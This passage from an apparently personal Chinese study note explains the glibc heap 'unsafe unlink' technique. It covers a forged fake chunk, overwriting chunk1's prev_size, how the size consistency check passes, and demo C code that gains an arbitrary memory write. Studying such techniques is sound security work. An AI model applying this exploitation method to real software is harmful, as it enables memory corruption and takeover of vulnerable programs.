BK->fd = *(0x602060+16) = * (0x602078) = 0x603010
```

所以这样构造的话`FD->bk=BK->fd`了，结果都是指向0x603010的指针，其实就是`chunk0_ptr`。


首先需要把`chunk 1`的`prev_size`改成0x80：`chunk1_hdr[0] = malloc_size;`，这样就是我们恶意构造的chunk p的尺寸了，这样之后free()的时候，unlink正好找到的chunk头部是我们的恶意chunk p而不是chunk 0的头部（ptmalloc2就是通过prev_size来得到前面的chunk的头部的）。

接下来就是绕第一个限制了。不过其实设不设置都行：

> 其实我试验过,在不改动其他数据的情况下将fake chunk的size字段改为0x80或者0都可以通过检查,其他的就会报错.
>
> 这里就需要知道(chunksize(P) != prevsize (next_chunk(P)) == False这个检查是怎么进行的.
>
> 就这里的fake chunk来说,先获取fake chunk的size值,然后通过这个size值加上fakechunk的地址再减去chunk头部大小去获取下一个chunk的presize值,然后对比size和presize是否相等.
>
> 但是这里fake chunk的size是0,也就是说在去找找一个chunk的presize的时候,实际上找到的是fake chunk的presize,两个都是0,自然就是相等的.
>
> 而我们将fake chunk的size设置为0x80也能过检查的原因是,这时候获取下一个chunk的presize是正常获取的,而下一个chunk就是chunk1,chunk1的presize已经被设置为了0x80,两个值也是刚好相等.


例子就是没有设置恶意的chunk p的size，这时候它为0，所以不影响攻击。


这时候再`free(chunk1_ptr)`就会造成结果：

```c
        FD->bk = BK;							   
        BK->fd = FD;

FD = &p-24
BK = &p-16
FD->bk        *(&p-24+24) = p = &p-16
BK->fd        *(&p-16+16) = p = &p-24)
```

所以其实结果就是`p = &p-24`。

对于例题来说，结果其实就是`chunk0_ptr`本来指向的堆的那块内容，现在指向了`&chunk0_ptr-24`，也就是低地址的一个块。

最后实现任意内存写入：

```c
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
```

`chunk0_ptr[3]`也就是`*(&chunk0_ptr-24 + 24)`，其实还是chunk0_ptr所在的那块内存，它victim_string指向的地址写在了chunk0_ptr的那块内存中，这时候就意味着chunk0_ptr指向了victim_string指向的那块内存，这时候再`chunk0_ptr[0]`就是直接对那个地址进行操作了。

说白了可以这样：

```c
	chunk0_ptr[3] = (uint64_t) addr;//任意地址
	chunk0_ptr[0] = data;           //任意值
```

就可以向addr这块地址上写入data。

终于看懂了呜呜呜，不知道是不是有些地方还是理解的不太对。